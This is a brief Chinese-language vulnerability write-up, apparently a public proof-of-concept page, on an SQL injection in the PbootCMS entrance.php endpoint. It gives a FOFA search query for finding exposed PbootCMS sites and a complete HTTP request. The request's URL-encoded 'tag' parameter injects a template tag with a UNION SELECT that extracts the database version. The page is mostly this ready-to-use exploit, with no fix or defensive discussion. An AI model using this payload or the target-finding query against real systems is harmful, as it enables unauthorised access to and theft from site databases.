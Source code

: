 # PbootCMS接口entrance.php存在SQL注入漏洞

由于PbootCMS entrance.php 文件代码逻辑缺陷存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息

## fofa

```javascript
header="PbootCMS" || body="zbeol.com"
```

## poc

```javascript
POST /?tag=%7d%73%71%6c%3a%20%20%7b%70%62%6f%6f%74%3a%6c%69%73%74%20%66%69%6c%74%65%72%3d%31%3d%32%29%55%4e%49%4f%4e%28%53%45%4c%45%43%54%2f%2a%2a%2f%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%28%73%65%6c%65%63%74%2f%2a%2a%2f%76%65%72%73%69%6f%6e%28%29%29%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%2c%31%29%2f%2a%2a%2f%23%2f%2a%2a%2f%7c%31%32%33%20%73%63%6f%64%65%3d%31%32%33%7d%5b%6c%69%73%74%3a%6c%69%6e%6b%20%6c%69%6e%6b%3d%61%73%64%5d%7b%2f%70%62%6f%6f%74%3a%6c%69%73%74%7d HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241211210840708](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112108781.png)